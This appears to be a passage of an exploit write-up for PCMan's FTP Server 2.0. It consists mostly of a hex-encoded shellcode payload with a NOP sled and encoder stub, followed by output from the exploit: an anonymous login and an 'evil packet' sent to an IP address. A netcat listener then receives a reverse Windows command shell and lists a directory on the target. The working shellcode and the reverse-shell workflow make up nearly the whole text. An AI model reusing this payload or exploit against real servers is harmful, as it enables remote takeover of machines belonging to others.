 ```sh
:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:9f:53:10:10:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:90:da:d0:d9:74:24:f4:59:49:49:49:49:49:49:49:49:49:49:43:43:43:43:43:43:43:37:51:5a:6a:41:58:50:30:41:30:41:6b:41:41:51:32:41:42:32:42:42:30:42:42:41:42:58:50:38:41:42:75:4a:49:79:6c:59:78:4e:62:37:70:77:70:43:30:65:30:6c:49:4a:45:64:71:49:50:55:34:4e:6b:52:70:30:30:6e:6b:50:52:56:6c:6c:4b:56:32:34:54:4e:6b:53:42:46:48:44:4f:4f:47:30:4a:71:36:34:71:79:6f:4e:4c:37:4c:45:31:33:4c:47:72:64:6c:51:30:69:51:4a:6f:34:4d:36:61:69:57:6d:32:59:62:71:42:62:77:6e:6b:62:72:44:50:4e:6b:50:4a:47:4c:4e:6b:72:6c:74:51:72:58:68:63:47:38:46:61:6a:71:46:31:6c:4b:52:79:51:30:46:61:78:53:4c:4b:50:49:37:68:6a:43:46:5a:61:59:6e:6b:65:64:6e:6b:33:31:49:46:34:71:59:6f:4c:6c:49:51:38:4f:36:6d:65:51:6f:37:77:48:4b:50:34:35:79:66:74:43:51:6d:7a:58:37:4b:71:6d:77:54:50:75:6d:34:62:78:6e:6b:62:78:37:54:77:71:6e:33:31:76:6e:6b:36:6c:62:6b:6e:6b:73:68:57:6c:46:61:7a:73:6e:6b:43:34:4e:6b:35:51:4e:30:4e:69:50:44:56:44:65:74:61:4b:51:4b:73:51:72:79:32:7a:33:61:49:6f:69:70:51:4f:71:4f:50:5a:4e:6b:55:42:5a:4b:6e:6d:71:4d:65:38:30:33:34:72:47:70:73:30:51:78:71:67:53:43:35:62:51:4f:32:74:61:78:52:6c:64:37:54:66:66:67:69:6f:49:45:4e:58:7a:30:43:31:57:70:55:50:74:69:6b:74:30:54:30:50:65:38:31:39:6d:50:72:4b:45:50:4b:4f:79:45:52:70:72:70:66:30:52:70:53:70:30:50:73:70:56:30:61:78:5a:4a:44:4f:59:4f:4d:30:79:6f:68:55:6f:67:53:5a:43:35:53:58:73:33:6e:63:38:4f:6d:7a:31:78:37:72:67:70:46:4e:4e:52:6d:59:4d:36:53:5a:56:70:76:36:31:47:62:48:7a:39:6d:75:52:54:55:31:59:6f:49:45:6c:45:69:50:72:54:64:4c:4b:4f:62:6e:34:48:73:45:6a:4c:35:38:58:70:58:35:59:32:73:66:69:6f:4b:65:33:58:42:43:30:6d:62:44:37:70:6e:69:5a:43:56:37:46:37:43:67:30:31:38:76:32:4a:64:52:42:79:61:46:38:62:39:6d:71:76:4b:77:63:74:46:44:67:4c:73:31:37:71:4e:6d:63:74:75:74:52:30:48:46:37:70:43:74:33:64:50:50:66:36:71:46:50:56:62:66:72:76:50:4e:46:36:63:66:70:53:31:46:42:48:32:59:78:4c:35:6f:6e:66:59:6f:49:45:6e:69:6b:50:50:4e:63:66:42:66:4b:4f:76:50:62:48:55:58:4e:67:57:6d:73:50:79:6f:6b:65:4f:4b:48:70:4d:65:69:32:66:36:62:48:4e:46:6d:45:4f:4d:4f:6d:49:6f:69:45:37:4c:37:76:61:6c:65:5a:4b:30:79:6b:39:70:70:75:47:75:6d:6b:31:57:32:33:44:32:42:4f:71:7a:43:30:51:43:79:6f:68:55:41:41


Connecting to 3.134.39.220 15139
Connected!
220 PCMan's FTP Server 2.0 Ready.

Logging as anonymous
331 User name okay, need password.

Empty password
230 User logged in

Sending evil packet to 3.134.39.220 15139 (length: 2743 bytes), please wait a few secs....


Done! :-)
```
```sh
└─$ nc -lvp 2021                                                                                                                             1 ⨯
listening on [any] 2021 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 41582
Microsoft Windows [Versi�n 10.0.19042.631]
(c) 2020 Microsoft Corporation. Todos los derechos reservados.

C:\Users\code\Desktop\Remote Exploiting\pcman_dregmod\pcman_dregmod>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: XXXX-XXXX

 Directorio de C:\Users\xxxxx\xxxxx\Remote Exploiting\pcman_dregmod\pcman_dregmod

15/01/2021  16:21    <DIR>          .
15/01/2021  16:21    <DIR>          ..
15/01/2021  16:21            93.240 bass.dll
15/01/2021  16:21    <DIR>          Blowfish Source Code
15/01/2021  16:21            32.768 Blowfish.dll
15/01/2021  16:21            14.904 dreg.dll
29/08/2007  16:03    <DIR>          Groups
15/01/2021  16:21                 0 IPFilter.ini
```